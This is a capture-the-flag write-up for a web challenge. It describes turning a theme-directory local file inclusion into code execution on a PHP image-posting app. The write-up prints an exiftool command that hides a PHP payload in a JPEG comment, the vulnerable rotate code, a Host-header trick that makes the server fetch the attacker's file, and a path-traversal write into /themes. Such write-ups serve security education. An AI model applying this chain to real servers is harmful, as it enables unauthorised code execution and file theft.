




# web02 (Point: 220)




## TL;DR

**This was LFI to RCE where LFI was only possible from a specific themes directory. So our task was to somehow write our payload file into themes directory and include it.**


## Vulnerability

So there were 2 major functionality of the app:

* Upload image.
* create a post with title, content and image .


### LFI in themes folder

So we noticed our uploaded image gets uploaded at:
* /uploads/32-byt-random-hash.jpg

And, When we create a new post, server provides us with a new POST-ID with our content displayed inside a template, http://52.78.36.66:81/post.php?post_id=ruym2lDW&theme=theme1.php uses `theme1.php` template and inject our post into it. <br>
Themes are located in /themes folder:
* /themes/theme1.php
* /themes/theme2.php

So if we are able to upload our shell.jpg into themes folder, we will be able to include it as a template using above route.

### Source code leak



Some of the source code was available at http://52.78.36.66:81/post.php. Code analyses displays the following :

* So when we `rotate` a image(it have to be a valid image):
    * If file name doesnt exists locally its fetched from URL. (Here $_SERVER['HTTP_HOST'] is Host Header which is user controlled)
        ```php
        $src_file = $post['feature_img'];
        
        if ( !file_exists( $src_file ) ) {
                $base_url = "http://" . $_SERVER['HTTP_HOST'];
                $src = $base_url. "/" . $src_file;
            } else {
                $src = $src_file;
            }
        ```

    * The image is rotated is rotated and new image is saved to new location `$post['feature_img']` which is user controlled.
        ```
        $src_file = $post['feature_img'];
        
        ...
        @$img->writeImage($src_file);
        ```

So, if we have `feature_img` = `../themes/shell.php` and we rotate the image, it will then be stored at `../themes/shell.php`, i.e in `themes` folder(Thus we have arbritrary write)

### Hint

View-Source tells the flag is at /flag.txt

## Exploit

* So first we create a valid JPG file with out shell inside it. We can put our PHP shell inside jpeg comment exif as follows:
    ```
    ubuntu $ exiftool -comment="<?php echo file_get_contents('/flag.txt'); ?>" img.jpg 
    ```
    upload the image to server in themes folder: http://1.2.3.4/themes/img.jpg

<!-- * Now we have an image with our php in it, so lets upload it to server(my image was uploaded at /uploads/b798abe6e1b1318ee36b0dcb3fb9e4d3.jpg) -->

* Create a new post with
    ```
    Post title = whtever
    Featured image = ../themes/shell.php  // $post['feature_img'];
    Post body = whtever
    ```
    So the new Post is at `http://52.78.36.66:81/post.php?post_id=04iQ2QJ3&theme=theme1.php`

* Edit image and rotate the image in post with 0deg and chagne Host header to your server's host. So it will
    * Fetch the image with php payload from server
    * rotate is 0deg
    * save it to `$post['feature_img']` which is '../themes/shell.php'

        

* Access the shell using template LFI

http://52.78.36.66:81/post.php?post_id=04iQ2QJ3&theme=shell.php

### FLag

WhiteHat{w0r6prEss_1s_!N_mY_H34r1}




